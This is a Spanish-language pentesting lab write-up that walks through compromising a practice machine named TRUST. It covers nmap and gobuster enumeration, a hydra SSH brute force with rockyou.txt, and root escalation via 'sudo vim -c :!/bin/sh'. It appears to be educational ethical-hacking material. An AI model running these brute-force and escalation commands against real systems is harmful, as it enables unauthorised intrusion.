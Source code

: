 # Lab de Pentesting: Escalada de privilegios en máquina TRUST

Este repositorio documenta el proceso paso a paso para comprometer y escalar privilegios en la máquina objetivo con IP \`172.18.0.2\`.

---

## Resumen

El objetivo principal fue identificar servicios activos, realizar enumeración, obtener acceso mediante fuerza bruta y finalmente escalar privilegios para obtener control total del sistema.

---

## Herramientas utilizadas

- \`ping\`
- \`nmap\`
- \`gobuster\`
- \`hydra\`
- \`ssh\`
- \`vim\`
- Diccionario \`rockyou.txt\`

---

## Pasos realizados

### 1. Verificar conectividad con ping

\`\`\`bash
ping -c 4 172.18.0.2
\`\`\`

Se confirmó que el objetivo responde a la red.

---

### 2. Escaneo completo de puertos con Nmap

\`\`\`bash
nmap -sV -sC -p- 172.18.0.2 --open -oN scanPuertos.txt
\`\`\`

Detectamos los puertos abiertos:
- Puerto 22 (SSH)
- Puerto 80 (HTTP)

---

### 3. Enumeración de directorios HTTP con Gobuster

\`\`\`bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://172.18.0.2 -x php,html,xml,txt,json
\`\`\`

Se descubrió el archivo \`secret.php\`.

---

### 4. Análisis del archivo \`secret.php\`

Al visitar \`http://172.18.0.2/secret.php\` encontramos un nombre: **Mario**.

---

### 5. Ataque de fuerza bruta SSH con Hydra

Intentamos acceder vía SSH con el usuario \`mario\` usando el diccionario \`rockyou.txt\`:

\`\`\`bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -v ssh://172.18.0.2
\`\`\`

Se logró obtener la contraseña correcta.

---

### 6. Acceso vía SSH

Conectamos exitosamente a la máquina como usuario \`mario\`.

---

### 7. Enumeración para escalada de privilegios

Ejecutamos:

\`\`\`bash
sudo -l
\`\`\`

Se observó que \`mario\` puede ejecutar \`vim\` con privilegios de root sin contraseña.

---

### 8. Explotación para obtener shell root

Usando la técnica encontrada en [GTFOBins - Vim](https://gtfobins.github.io/), ejecutamos:

\`\`\`bash
sudo vim -c ':!/bin/sh'
\`\`\`

Conseguimos un shell con privilegios root y control total de la máquina.

---

## Resultados finales

- Acceso root conseguido en la máquina objetivo.
- Escalada de privilegios exitosa mediante abuso de sudo con vim.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
